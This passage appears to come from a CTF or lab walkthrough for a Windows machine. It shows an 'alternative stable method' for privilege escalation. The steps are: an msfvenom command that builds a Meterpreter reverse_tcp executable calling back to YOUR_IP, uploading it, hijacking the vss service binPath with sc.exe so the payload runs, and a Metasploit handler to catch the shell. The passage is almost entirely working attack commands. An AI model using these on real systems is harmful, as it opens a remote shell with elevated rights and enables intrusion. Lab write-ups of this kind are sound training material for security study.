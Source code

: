 ![root_flag.png](screenshots/root_flag.png)

---

### 4.5 Alternative Stable Method (Meterpreter)

Generate a Meterpreter payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=1337 -f exe > shell.exe
```

Upload the payload:

```bash
upload shell.exe
```

Modify service to run payload:

```bash
sc.exe config vss binPath="C:\Users\svc-printer\Desktop\shell.exe"
sc.exe stop vss
sc.exe start vss
```

Set up Metasploit listener:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 1337
run
```
